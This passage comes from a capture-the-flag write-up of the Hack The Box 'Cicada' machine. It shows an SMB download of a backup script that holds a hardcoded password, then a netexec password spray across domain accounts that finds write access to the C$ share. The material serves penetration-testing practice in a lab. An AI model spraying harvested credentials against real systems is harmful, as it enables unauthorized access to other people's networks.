 ```
smb: \> get Backup_script.ps1
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (3.7 KiloBytes/sec) (average 3.7 KiloBytes/sec)
smb: \> 
```
After downloading the PowerShell script we should check the content of this file.
```
┌──(emvee㉿kali)-[~/Documents/HTB/Cicada]
└─$ cat Backup_script.ps1

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"

```
New credentials can be found in this PowerShell script. Let's see if this user can check other shares on the SMB server and perhaps we are lucky to gain access to the system with this user.
```
┌──(emvee㉿kali)-[~/Documents/HTB/Cicada]
└─$ netexec smb $ip -u usernames.txt -p 'Q!3@Lp#M6b*7t*Vt' --shares
SMB         10.129.231.149  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.231.149  445    CICADA-DC        [-] cicada.htb\Administrator:Q!3@Lp#M6b*7t*Vt STATUS_LOGON_FAILURE 
SMB         10.129.231.149  445    CICADA-DC        [-] cicada.htb\Guest:Q!3@Lp#M6b*7t*Vt STATUS_LOGON_FAILURE 
SMB         10.129.231.149  445    CICADA-DC        [-] cicada.htb\krbtgt:Q!3@Lp#M6b*7t*Vt STATUS_LOGON_FAILURE 
SMB         10.129.231.149  445    CICADA-DC        [-] cicada.htb\CICADA-DC$:Q!3@Lp#M6b*7t*Vt STATUS_LOGON_FAILURE 
SMB         10.129.231.149  445    CICADA-DC        [-] cicada.htb\john.smoulder:Q!3@Lp#M6b*7t*Vt STATUS_LOGON_FAILURE 
SMB         10.129.231.149  445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Q!3@Lp#M6b*7t*Vt STATUS_LOGON_FAILURE 
SMB         10.129.231.149  445    CICADA-DC        [-] cicada.htb\michael.wrightson:Q!3@Lp#M6b*7t*Vt STATUS_LOGON_FAILURE 
SMB         10.129.231.149  445    CICADA-DC        [-] cicada.htb\david.orelious:Q!3@Lp#M6b*7t*Vt STATUS_LOGON_FAILURE 
SMB         10.129.231.149  445    CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt 
SMB         10.129.231.149  445    CICADA-DC        [*] Enumerated shares
SMB         10.129.231.149  445    CICADA-DC        Share           Permissions     Remark
SMB         10.129.231.149  445    CICADA-DC        -----           -----------     ------
SMB         10.129.231.149  445    CICADA-DC        ADMIN$          READ            Remote Admin
SMB         10.129.231.149  445    CICADA-DC        C$              READ,WRITE      Default share
SMB         10.129.231.149  445    CICADA-DC        DEV                             
SMB         10.129.231.149  445    CICADA-DC        HR              READ            
SMB         10.129.231.149  445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.129.231.149  445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.129.231.149  445    CICADA-DC        SYSVOL          READ            Logon server share
```
We have read and write access to the `C$` folder on the target. This sounds like music to my ears.
